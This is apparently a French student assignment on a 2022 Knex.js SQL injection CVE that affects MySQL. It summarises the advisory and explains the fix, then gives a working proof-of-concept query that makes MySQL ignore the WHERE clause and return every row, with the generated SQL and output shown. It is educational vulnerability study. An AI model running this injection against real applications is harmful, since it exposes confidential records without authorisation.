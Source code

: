 # TP-CVE
# William - M2I M2 IASI

## 1 - Trouvez une CVE sortie en 2022 (score ≥ 7) 🔎
Le package Knex.JS présente une vulnérabilité limité d’injection SQL pouvant être exploitée pour ignorer la clause WHERE d’une requête SQL.
Cette vulnérabilité fonctionne seulement sur des bases de données MySQL et a été corrigée dans la version 2.4.0. Elle affecte des milliers de packages NodeJS utilisant Knex pour construire des requêtes SQL qui n'excluent pas les paramètres ayant pour type Object et Array.

https://github.com/advisories/GHSA-4jv9-3563-23j3

![](https://i.imgur.com/KlWHWpf.png)

## 2 - Trouvez sur github (ou ailleurs) le fix (commit) de la CVE et expliquez ce fix 🔨
Le fix bloque tous les paramètres insérés dans la clause `WHERE` d’une requête qui sont de type `Array` ou `Object`, en utilisant les packages [loadash](https://www.npmjs.com/package/lodash) et [assert](https://www.npmjs.com/package/assert), permettant ainsi d’éviter une injection dans les paramètres.

https://github.com/knex/knex/pull/5417

## 3 – Proposez une démo d’exploitation de la CVE  🖥️
Prenons une table `users` ayant pour colonnes: `id`, `name` et `secret` avec deux utilisateurs: "admin" et "guest".

| id | name  | secret             |
| -- |-------|--------------------|
| 1  | admin | super confidentiel |
| 2  | guest | salut              |

```
knex('users')
    .select()
    .where({ secret: { "name": "admin" } })
    .then(res => console.log(res))
```
En exécutant le code ci-dessus, Knex va générer la requête SQL suivante: ```select * from `users` where `secret` = `name` = 'admin'```.

Avec cette syntaxe, MySQL va ignorer la clause `WHERE` et exécuter la requête suivante: ```select * from `users` ``` et donc retourner toutes les lignes de la table `users`:

```
[
  RowDataPacket { id: 1, name: 'admin', secret: 'super confidentiel' },
  RowDataPacket { id: 2, name: 'guest', secret: 'salut' }
]
```
